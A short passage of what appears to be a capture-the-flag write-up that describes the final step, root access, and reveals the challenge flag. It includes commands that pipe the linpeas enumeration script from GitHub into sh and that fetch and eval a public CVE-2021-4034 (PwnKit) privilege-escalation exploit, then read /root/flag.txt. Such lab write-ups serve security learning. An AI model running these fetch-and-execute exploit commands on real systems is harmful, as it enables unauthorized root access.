 ## 7. Final step of CTF : get access to root

### Exercises

1. Get the root access and find the flag.

> Flag : BC{y0ur_f1r57_r007_fl46#_w3ll_d0n3}

Linpeas : 

    curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

After reading multiple vulnerability, i found one that led me to a github script :

    eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"

You're now in the shell as root :

    cd /root/
    cat flag.txt
